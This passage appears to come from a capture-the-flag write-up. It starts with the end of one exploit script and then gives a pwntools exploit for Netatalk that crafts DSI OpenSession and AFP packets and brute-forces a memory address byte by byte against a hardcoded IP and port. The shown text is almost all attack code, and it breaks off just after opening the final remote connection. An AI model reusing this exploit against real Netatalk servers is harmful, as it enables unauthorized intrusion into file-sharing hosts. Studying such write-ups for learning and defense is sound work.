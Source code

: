 ```python=
p += push( 10 ) + '🆕'
p += '🛑'

o = open( 'exp' , 'w+' )
o.write( p )
o.close()
```

### Netatalk


```python=
from pwn import *
import struct

#context.log_level = "error"
#ip = 'localhost'
ip = '3.114.63.117'
port = 48763
def create_header(addr):
    dsi_opensession = "\x01" # attention quantum option
    dsi_opensession += chr(len(addr)+0x10) # length
    dsi_opensession += "b"*0x10+addr
    dsi_header = "\x00" # "request" flag
    dsi_header += "\x04" # open session command
    dsi_header += "\x00\x01" # request id
    dsi_header += "\x00\x00\x00\x00" # data offset
    dsi_header += struct.pack(">I", len(dsi_opensession))
    dsi_header += "\x00\x00\x00\x00" # reserved
    dsi_header += dsi_opensession
    return dsi_header

def create_afp(idx,payload):
    afp_command = chr(idx) # invoke the second entry in the table
    afp_command += "\x00" # protocol defined padding 
    afp_command += payload
    dsi_header = "\x00" # "request" flag
    dsi_header += "\x02" # "AFP" command
    dsi_header += "\x00\x02" # request id
    dsi_header += "\x00\x00\x00\x00" # data offset
    dsi_header += struct.pack(">I", len(afp_command))
    dsi_header += '\x00\x00\x00\x00' # reserved
    dsi_header += afp_command
    return dsi_header

#addr = p64(0x7f9159232000-0x5357000)[:6] # brutefore address
addr = p64(0x7f812631d000)[:6]
#addr = ""
while len(addr)<6 :
    for i in range(256):
        r = remote(ip,port)
        r.send(create_header(addr+chr(i)))
        try:
            if "a"*4 in r.recvrepeat(1):
                addr += chr(i)
                r.close()
                break
        except:
            r.close()
    val = u64(addr.ljust(8,'\x00'))
    print hex(val)
addr += "\x00"*2
offset = 0x5246000
r = remote(ip,port)
```